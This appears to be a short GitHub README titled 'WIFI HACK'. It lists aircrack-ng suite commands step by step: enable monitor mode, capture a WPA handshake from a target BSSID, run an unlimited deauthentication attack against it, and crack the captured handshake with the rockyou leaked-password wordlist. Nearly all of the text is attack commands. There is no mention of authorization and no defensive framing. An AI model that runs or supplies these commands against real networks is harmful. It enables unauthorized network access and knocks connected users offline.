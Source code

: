 # _*WIFI HACK*_

`! See interfaces`

    ifconfig
  
 `!kill processes`
 
    sudo airmon-ng check kill
  
`!Start monitor mode`

    sudo airmon-ng start wlp2s0
  
`!Verify that monitor mode is used`
 
    sudo airmon-ng
    
`! Get the AP's MAC address && BSSID and channel`

    sudo airodump-ng wlp2s0mon
    
 `!1st Window:
!Make sure you replace the channel number and bssid with your own
!Replace handshake with your file name like capture1 or something `

    sudo airodump-ng -w /home/astute/temp/handshake -c 1 --bssid B8:C1:A2:2E:39:14 wlp2s0mon
  
`!2nd Window - deauth attack
!Make sure you replace the bssid with your own`

    sudo aireplay --deauth 0 -a B8:C1:A2:2E:39:14 wlp2s0mon
    
 `crack the handshake.cap`
 
    sudo aircrack-ng handshake.cap -w /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt

`don't forget to stop monitor mode`

    sudo airmon-ng stop wlp2s0mon
    
